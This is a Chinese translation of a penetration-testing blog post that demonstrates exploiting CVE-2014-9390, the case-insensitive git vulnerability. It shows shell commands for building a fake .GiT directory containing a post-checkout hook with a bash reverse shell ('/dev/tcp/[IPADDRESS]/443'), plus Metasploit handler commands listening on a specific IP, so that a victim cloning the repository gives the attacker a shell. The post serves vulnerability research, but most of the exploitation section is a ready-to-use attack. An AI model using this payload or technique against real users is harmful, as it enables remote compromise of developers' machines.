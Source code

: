 # One git command may cause you hacked(CVE-2014-9390)

from：https://www.mehmetince.net/one-git-command-may-cause-you-hacked-cve-2014-9390-exploitation-for-shell/

0x00 背景
-------

* * *

CVE-2014-9390是最近很火的一个漏洞，一个git命令就可能导致你被黑，我不打算深入探讨这个漏洞的细节，官方已经在[https://github.com/blog/1938-git-client-vulnerability-announced](https://github.com/blog/1938-git-client-vulnerability-announced)和[http://article.gmane.org/gmane.linux.kernel/1853266](http://article.gmane.org/gmane.linux.kernel/1853266)发布了详细信息。总之，如果你使用了大小写不敏感的操作系统例如Windows或OSX，你应该更新git客户端了。

让我们以渗透测试的角度来看看这个漏洞。

0x01 准备
-------

* * *

我创建了一个命名为CVE-2014-9390的新项目。

![enter image description here](http://drops.javaweb.org/uploads/images/8bcc0d6082446b2aa9740de37922ddd2b2401e17.jpg)

建立一个.GiT（大些G，小写i然后大写T）目录，创建一个vulnerable.txt文件，然后push到项目中。

```
root@rootlab:~/cve-2014-9390# mkdir .GiT
root@rootlab:~/cve-2014-9390# cd .GiT/
root@rootlab:~/cve-2014-9390/.GiT# echo "Vulnerable" >> vulnerable.txt
root@rootlab:~/cve-2014-9390/.GiT# cd ..
root@rootlab:~/cve-2014-9390# git add .
root@rootlab:~/cve-2014-9390# git commit -m 'poc'
[master bec157d] poc
1 file changed, 1 insertion(+)
create mode 100644 .GiT/vulnerable.txt
root@rootlab:~/cve-2014-9390# git push

```

我们再从Windows的电脑上用存在漏洞的git客户端pull同一个项目看看

```
rootlab@MINCE ~
$ git clone git@gitlab.com:mehmet/cve-2014-9390.git
Cloning into 'cve-2014-9390'...
Enter passphrase for key '/c/Users/rootlab/.ssh/id_rsa':
remote: Counting objects: 7, done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 7 (delta 0), reused 0 (delta 0)R
Receiving objects: 100% (7/7), done.
Checking connectivity... done.

```

给大家看一下.git目录，本应该在.GiT目录的vulnerable.txt也在这里

![enter image description here](http://drops.javaweb.org/uploads/images/5204a4bbef90d3ef6c3f4bbf7f8609d404726d3d.jpg)

0x02 利用
-------

* * *

### 什么是git的hooks

与许多其他版本控制系统类似，一些重要的动作发生时，git有一个方法来执行自定义的脚本。hooks分两方面：客户端和服务器端。当进行commit和merge时可以触发客户端的hooks。

当执行git命令如git pull和git checkout时就可以执行客户端的脚本。

### 如何实现git hooks？

重写.git/hooks目录下的一个脚本文件，然后执行他，我们可以通过这个漏洞来实现。

我们创建一个假的git目录然后建立一个叫post-checkout的文件。

```
root@rootlab:~/cve-2014-9390# mkdir .GiT/hooks
root@rootlab:~/cve-2014-9390# echo '#!/bin/sh' > .GiT/hooks/post-checkout
root@rootlab:~/cve-2014-9390# echo 'bash -i >& /dev/tcp/[IPADDRESS]/443 0>&1' >> .GiT/hooks/post-checkout
root@rootlab:~/cve-2014-9390# git add .
root@rootlab:~/cve-2014-9390# git commit -m 'add reverse connection payload'
[master 389c979] add powershell payload
1 file changed, 4 insertions(+)
create mode 100644 .GiT/hooks/post-checkout
root@rootlab:~//cve-2014-9390# git push

```

我们在服务器端监听

```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD generic/shell_reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 108.61.164.142
msf exploit(handler) > exploit
[*] Started reverse handler on 108.61.164.142:443
[*] Starting the payload handler...

```

我们clone https://gitlab.com/mehmet/cve-2014-9390

![enter image description here](http://drops.javaweb.org/uploads/images/725120149894f7d7531492a15c04cec4a9c470ff.jpg)

看起来都是很正常，但是……

![enter image description here](http://drops.javaweb.org/uploads/images/2ea5a13f98f39c178d454ebcc6bfd68e38f10099.jpg)